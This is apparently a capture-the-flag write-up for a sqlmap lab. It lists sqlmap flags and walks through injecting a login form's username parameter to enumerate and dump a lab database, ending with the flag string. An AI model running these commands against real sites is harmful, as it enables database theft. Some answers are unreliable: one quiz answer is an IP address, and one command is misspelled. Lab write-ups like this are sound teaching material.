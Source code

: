 # SQLMAP

### Using Sqlmap
- Which flag or option will allow you to add a URL to the command? `-u`
- Which flag would you use to add data to a POST request? `--data`
- There are two parameters: username and password. How would you tell sqlmap to use the username parameter for the attack? `-p username`
- Which flag would you use to show the advanced help menu? `-hh`
- Which flag allows you to retrieve everything? `-a`
- Which flag allows you to select the database name? `-D`
- Which flag would you use to retrieve database tables? `--tables`
- Which flag allows you to retrieve a table’s columns? `--columns`
- Which flag allows you to dump all the database table entries? `--dump-all`
- Which flag will give you an interactive SQL Shell prompt? `--sql-shell`
- You know the current db type is 'MYSQL'. Which flag allows you to enumerate only MySQL databases? `10.10.151.124`

### SQLMap Challenge
- What is the name of the interesting directory? `blood`
- Who is the current db user? <br />
I capture a post request with burpsuite and put it inside a `request` file:

      POST /blood/auth.php HTTP/1.1
      Host: 10.10.151.124
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate, br
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 27
      Origin: http://10.10.151.124
      Connection: keep-alive
      Referer: http://10.10.151.124/blood/login.php
      Cookie: PHPSESSID=97ni5og1n4i87igklqoh43bcs0
      Upgrade-Insecure-Requests: 1
      Priority: u=0, i

      username=test&password=test
Now run `qlmap -r request -p username --risk 3 --level 5 --batch --dbms=mysql --current-user` to get the answer: `root`
- What is the final flag? <br />
I run `sqlmap -r request -p username --risk 3 --level 5 --batch --dbs`. <br />
![image](https://github.com/user-attachments/assets/40f82a59-3648-4fb9-a9f4-0414055f47d9)<br />
Then I run `sqlmap -r request -p username --risk 3 --level 5 --batch --dbms=mysql -D blood --tables`:<br />
![image](https://github.com/user-attachments/assets/d0e1b2e3-9a36-4eaa-ac75-0fd582102d16)<br />
Finally, I run `sqlmap -r request -p username --risk 3 --level 5 --batch --dbms=mysql -D blood -T flag --dump-all`:<br />
![image](https://github.com/user-attachments/assets/d20b7e8b-b683-4d9c-8b86-a05fecd84923)<br />
`thm{sqlm@p_is_L0ve}`
